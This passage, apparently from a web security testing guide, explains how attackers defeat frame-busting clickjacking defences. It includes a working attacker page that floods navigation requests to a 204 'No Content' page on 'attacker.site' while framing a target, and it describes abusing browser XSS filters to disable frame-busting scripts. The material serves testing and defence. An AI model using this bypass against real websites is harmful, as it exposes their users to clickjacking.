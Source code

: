 The previous technique requires the user interaction but, the same result, can be achieved without prompting the user. To do this the attacker have to automatically cancel the incoming navigation request in an onBeforeUnload event handler by repeatedly submitting (for example every millisecond) a navigation request to a web page that responds with a “HTTP/1.1 204 No Content” header.

Since with this response the browser will do nothing, the resulting of this operation is the flushing of the request pipeline, rendering the original frame busting attempt futile.

Following an example code:

204 page:

```php
<?php
    header("HTTP/1.1 204 No Content");
?>
```

Attacker's page:

```html
<script>
    var prevent_bust = 0;
    window.onbeforeunload = function() {
        prevent_bust++;
    };
    setInterval(
        function() {
            if (prevent_bust > 0) {
                prevent_bust -= 2;
                window.top.location = "http://attacker.site/204.php";
            }
        }, 1);
</script>
<iframe src="http://target site">
```

##### XSS Filter

Starting from Google Chrome 4.0 and from IE8 there were introduced XSS filters to protect users from reflected XSS attacks. Nava and Lindsay have observed that these kind of filters can be used to deactivate frame busting code by faking it as malicious code.

- **IE8 XSS filter**: this filter has visibility into all parameters of each request and response flowing through the web browser and it compares them to a set of regular expressions in order to look for reflected XSS attempts. When the filter identifies a possible XSS attacks; it disables all inline scripts within the page, including frame busting scripts (the same thing could be done with external scripts). For this reason an attacker could induce a false positive by inserting the beginning of the frame busting script into a request's parameters.

Example: Target web page frame busting code:

```html
<script>
    if ( top != self )
    {
        top.location=self.location;
    }
</script>
```
